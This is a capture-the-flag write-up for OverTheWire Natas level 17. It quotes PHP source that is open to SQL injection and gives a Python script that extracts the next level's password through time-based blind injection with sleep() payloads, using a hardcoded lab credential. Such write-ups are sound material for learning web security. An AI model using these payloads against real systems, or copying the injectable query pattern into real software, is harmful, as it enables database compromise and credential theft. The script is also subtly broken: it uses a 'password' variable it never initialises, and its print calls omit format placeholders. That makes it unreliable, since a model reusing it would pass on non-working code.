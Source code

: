 # Level 17

**URL: http://natas17.natas.labs.overthewire.org/**



## Solution

This challenge is the same challenge as the previous blind-based SQL injection challenge, except this time there is no output.

let's drop the source code.

```php
<?  
  
/*  
CREATE TABLE `users` (  
  `username` varchar(64) DEFAULT NULL,  
  `password` varchar(64) DEFAULT NULL  
);  
*/  
  
if(array_key_exists("username", $_REQUEST)) {  
    $link = mysql_connect('localhost', 'natas17', '<censored>');  
    mysql_select_db('natas17', $link);  
      
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";  
    if(array_key_exists("debug", $_GET)) {  
        echo "Executing query: $query<br>";  
    }  
  
    $res = mysql_query($query, $link);  
    if($res) {  
    if(mysql_num_rows($res) > 0) {  
        //echo "This user exists.<br>";  
    } else {  
        //echo "This user doesn't exist.<br>";  
    }  
    } else {  
        //echo "Error in query.<br>";  
    }  
  
    mysql_close($link);  
} else {  
?>   

```

we can see two important things :

1. a `users` table with 2 columns (`username`, `password`)
2. There is no output no matter what input we provide.


We can force the SQL query to reveal more informations using the MySQL [sleep()](https://dev.mysql.com/doc/refman/8.0/en/miscellaneous-functions.html) function.  

- input:  **natas18" and sleep(3) #**

if the query takes more than 3 seconds to execute, then it means that username `natas18` exists and sleep(3) got executed successfully!  

So we will  bruteforce the password character by character.According to the response time we can accept or reject characters.

here is the script.

```python
#!/usr/bin/python3

# coding : utf-8


import requests
import string

pass_charset = string.ascii_letters + string.digits
URL = "http://natas17.natas.labs.overthewire.org"

session = requests.Session()
session.auth = ('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')
payload = {'username': ''}
reduced_charset = ""

time_list = []

# determine only characters present in password, to reduce time
for c in pass_charset:
    payload["username"] = 'natas18" AND password LIKE BINARY "%{}%" AND sleep(1)#'.format(c)
    r = session.post(URL, data=payload)
    if r.elapsed.total_seconds() >= 1:
        reduced_charset += c

print("reduced character set : ".format(reduced_charset))

for i in range(1, 32+1):
    for c in reduced_charset:
        payload["username"] = 'natas18" and strcmp(BINARY substr(password, {}, 1), "{}") = 0 and sleep(1)#'.format(i, c)
        res = session.post(URL, data=payload)
        if res.elapsed.total_seconds() >= 1:
            password += c

print("flag is : ".format(password))


#print("guessed char: {}".format(pass_charset[time_list.index(max(time_list))]))

```

















